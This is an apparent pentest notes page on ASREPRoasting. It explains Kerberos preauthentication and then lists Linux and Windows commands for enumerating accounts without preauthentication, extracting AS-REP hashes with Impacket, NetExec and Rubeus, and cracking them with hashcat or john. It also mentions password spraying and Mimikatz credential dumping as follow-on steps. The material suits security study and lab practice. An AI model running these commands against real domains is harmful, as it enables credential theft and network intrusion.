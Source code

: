 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# ASREPRoasting

## Concept

**ASREPRoasting** is an attack on the initial Kerberos authentication step and it is usually performed **after obtaining a list of valid domain users**.&#x20;

**Preauthentication** is a security feature in Kerberos where the client must prove knowledge of their password before the KDC issues a TGT. This is done by encrypting a timestamp with a key derived from the user’s password and sending it to the KDC. If the KDC can decrypt and validate the timestamp, it confirms the user knows their password — protecting against offline brute-force attacks.

If an account has the [`Do not require Kerberos pre-authentication`](https://www.tenable.com/blog/how-to-stop-the-kerberos-pre-authentication-attack-in-active-directory) setting enabled then everyone can request from the DC to authenticate as that account and receive an **AS-REP**. The AS-REP contains the **TGT** which is encypted with the account's password hash which can be potentially cracked.

<figure><img src="../../../.gitbook/assets/asreproasting_process (2).png" alt=""><figcaption><p>Figure 1: The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

## Attack <a href="#windows" id="windows"></a>

{% tabs %}
{% tab title="Linux" %}
We can enumerate accounts with the preauthentication feature disabled using `GetNPUsers` or `kerbrute`.

{% code overflow="wrap" %}
```bash
# Impacket's GetNPUsers script
impacket-GetNPUsers corp.com/robert

# Kerbrute
kerbrute userenum -d corp.com --dc 172.16.5.5 /opt/jsmith.txt
```
{% endcode %}

Then we can ASREPRoast the enumerated accounts using `GetNPUsers` or `nxc`.

{% code overflow="wrap" %}
```bash
# Impacket's GetNPUsers script
impacket-GetNPUsers corp.com/ -dc-ip 172.16.5.5 -no-pass -usersfile users.txt
# NetExec
nxc ldap 10.10.10.161 -u users.txt -p '' --asreproast asreproast.lst
```
{% endcode %}

Finally, we can crack the extracted hashes with `hashcat` or `john`.

{% code overflow="wrap" %}
```bash
# Hashcat
hashcat -m 18200 asreproast.lst /usr/share/wordlists/rockyou
# John
john --format=krb5asrep --wordlist=rockyou.txt --fork=4 asreproast.lst
```
{% endcode %}
{% endtab %}

{% tab title="Windows" %}
We can enumerate accounts with the preauthentication feature disabled using [PowerView](../../../tools/active-directory/powerview.md).

{% code overflow="wrap" %}
```powershell
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```
{% endcode %}

Then we can ASREPRoast the enumerated accounts using [`rubeus`](../../../tools/active-directory/rubeus.md).

```powershell
.\Rubeus.exe asreproast /nowrap /format:hashcat
```

Finally, we can crack the extracted hashes on our attacking machine with `hashcat` or `john`.

{% code overflow="wrap" %}
```bash
# Hashcat
hashcat -m 18200 asreproast.lst /usr/share/wordlists/rockyou
# John
john --format=krb5asrep --wordlist=rockyou.txt --fork=4 asreproast.lst
```
{% endcode %}
{% endtab %}
{% endtabs %}

If we successfully crack the hash, we can perform a [password spraying](../../../tools/active-directory/netexec-cme.md#password-spray) attack across the network using NetExec. If the compromised user has local administrator privileges on any host, we can then extract cached credentials—such as those stored in [LSASS](../../../tools/active-directory/mimikatz.md#pass-the-hash)—using tools like Mimikatz.

> _For an example of ASREPRoasting with `nxc` check_ [_here_](https://x7331.gitbook.io/boxes/boxes/boxes/easy/sauna#asreproasting)_._

## Targeted ASREPRoasting

If we can't find any vulnerable users, but we have `GenericWrite` or `GenericAll` on a user object, we can modify that user's `UserAccountControl` to disable preauthentication and then perform the ASREP roast attack. Don't forget to reset the `UserAccountControl` after extraction!

## Resources

{% tabs %}
{% tab title="Video" %}
{% embed url="https://www.youtube.com/watch?index=4&list=PLDrNMcTNhhYqZj7WZt2GfNhBDqBnhW6AT&v=EVdwnBFtUtQ" %}
{% endtab %}

{% tab title="GetNPUsers" %}
{% embed url="https://www.youtube.com/watch?v=pZSyGRjHNO4" %}
The workings of GetNPUsers script!
{% endembed %}
{% endtab %}

{% tab title="Demo" %}
{% embed url="https://www.youtube.com/watch?v=wA9w8t1fRWo" %}
ASREPRoasting in 10 minutes!
{% endembed %}
{% endtab %}

{% tab title="Article" %}
{% embed url="https://blog.notso.pro/2020-05-07-offops-in-ad-0/" %}
A great article detailing each step of the Kerberos process.
{% endembed %}
{% endtab %}
{% endtabs %}
